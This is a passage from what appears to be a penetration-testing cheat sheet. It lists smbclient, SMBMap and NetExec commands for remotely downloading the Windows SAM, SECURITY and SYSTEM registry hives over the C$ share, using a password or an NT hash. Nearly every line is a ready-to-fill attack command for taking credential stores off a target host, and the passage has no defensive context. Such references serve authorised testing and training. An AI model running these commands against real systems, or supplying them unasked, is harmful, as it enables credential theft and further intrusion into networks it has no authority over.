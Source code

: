##### 1.3.2.1 - `smbclient`

TODO: Modify the permissions with `smbcacls` in order to download them

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"
```

##### 1.3.2.2 - SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SAM"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SECURITY"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SYSTEM"
```

##### 1.3.2.3 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SAM SAM

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SECURITY SECURITY

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SYSTEM SYSTEM
```

### 1.4 - Download hive files

#### 1.4.1 - `smbclient`

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ -c "get /Windows/Temp/SAM SAM; get /Windows/Temp/SECURITY SECURITY; get /Windows/Temp/SYSTEM SYSTEM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ -c "get /Windows/Temp/SAM SAM; get /Windows/Temp/SECURITY SECURITY; get /Windows/Temp/SYSTEM SYSTEM"
```

#### 1.4.2 - SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\Temp\SAM"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\Temp\SECURITY"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\Temp\SYSTEM"
```
